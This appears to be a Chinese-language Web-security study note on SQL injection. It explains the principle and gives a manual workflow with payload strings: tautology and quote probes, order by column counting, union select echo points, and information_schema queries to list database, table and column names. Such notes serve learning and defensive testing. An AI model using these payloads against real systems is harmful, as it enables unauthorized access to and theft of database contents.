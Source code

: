```yaml
---
title: SQL注入
toc: false
date: 2021-03-24 15:53:00
description: SQL注入
tags: Web安全
categories: Web安全
---
```


## 0x01 SQL注入原理

用户输入的数据被当作代码执行

## 0x02 基本手工注入流程

### 判断注入点

```
数字型：id=2-1、and 1=1、and 1=2、and -1=-2、and 1>0、or 1=1 ......
字符型：'、')、'))、)、"、")、"))
注释符：-- qwe、/**/、#
```

### 获取字段数

```
order by n
```

### 查看回显点

```
and 1=2 union select 1,2,3,......,n
```

### 查看数据库名称(假设n是回显点)

```
and 1=2 union select 1,2,3,......,database()
```

### 查看表名

```
and 1=2 union select 1,2,3,......,table_name from information_schema.tables where table_schema = database() limit 0,1    // limit 0,1 0是从哪开始,1是显示几个
```

### 查看字段名

```
union select 1,2,3,......,column_name from information_schema.columns where table_schema = database() and table_name = '表名' limit 0,1
```
